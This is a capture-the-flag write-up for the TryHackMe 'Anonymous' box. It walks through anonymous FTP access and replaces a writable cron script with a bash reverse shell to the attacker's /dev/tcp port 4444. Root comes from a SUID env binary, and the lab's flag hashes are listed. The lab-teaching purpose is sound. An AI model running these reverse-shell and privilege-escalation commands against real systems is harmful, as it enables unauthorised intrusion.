






# BOX NAME: ANONYMOUS (THM)

* **Target IP:** `10.128.167.X`
* **OS:** Linux
* **Difficulty:** Medium
 
---

## 1. Reconnaissans & Enumeration

### Nmap Scan 
We start by scanning all open tcp ports on  the target machine:


 ```bash
nmap -sv -sC --open 10.128.167.X
````
*  ### Key findings from The nmap scan:
*  * **Port 22**
*  * **Port 21**

  

### 2. Enumerating FTP:
* Tried anonymous login on port ftp(21) and the login was succesifull
```` bash
ftp 10.128.167.X 21
````


* Listed availabble directoiries on the ftp server and found a directory called scripts, i navigated into the directory and found a script called clean.sh i downloaded it to my attacker machine to see what was written inside.
  


* Reading the script on  my attacker machine i found out that it was a cronjob that was cleaning up files on the target machine 

## 3. Getting Initial Foothold
*  From the above screenshot you can see that the script gives full permisions to write,excute and read it, there for after downloading it i removed the bash script that was running inside it and replaced it with a bash reverse shell connecting back to my attacker ip adress and puting it back to overwrite the the original one in in the ftp server.
  
* ### Bash Revserse Shell
```
bash -i >& /dev/tcp/10.128.167.X/4444 0>&1
````
* After overwritting the script in in the ftp server i started a netcat listener on my attackrer mahine to listen for the incoming connection from the target machine on port 4444 matching the bash reverse shell payload

```` 
nc -lvnp 4444 
````
* Then i got a shell connection from the target machine as a low preveraged user `namelessone` and got the user flag on the machine
  


 ### Upgrading the Shell
The initial shell was non-interactive (lacking a TTY). Verifying that Python was installed on the target, i spawned a pseudo-terminal to upgrade the session.

```
 python -c 'import pty; pty.spawn("/bin/bash")'
 ```
 ## 4. Preverage Escallation
 * I did my preverage escallation on this mchine by finding a suid binary that was running as root on the machine by running this command 
  
````
find / -type f -name "env" -perm -4000 2>/dev/null
````
* ## Out Put

* Found a binary named env that should'nt be running as root on the machine then i utilised the use of GTFOBINS to spawn a root shell

``` 
env /bin/sh -p
````
* Spawned the shell and got the root flag
  
* 
  
  ## 4. Conclusion & Remediation
* **Vulnerable SUID Binary:** Avoid setting dangerous binaries (like `env`) with the SUID bit enabled. Restrict root-level execution strictly to what is necessary using sudo rules with explicit arguments.
* **Insecure File Permissions:** Ensure configuration files and scripts are not world-writable.

### Flags
* **User Flag:** `90d6f992585815ff991e68748c414740`
* **Root Flag:** `4d930091c31a622a7ed10f27999af363`
  
**Written by Festus Zulu ceo of  offensive ai**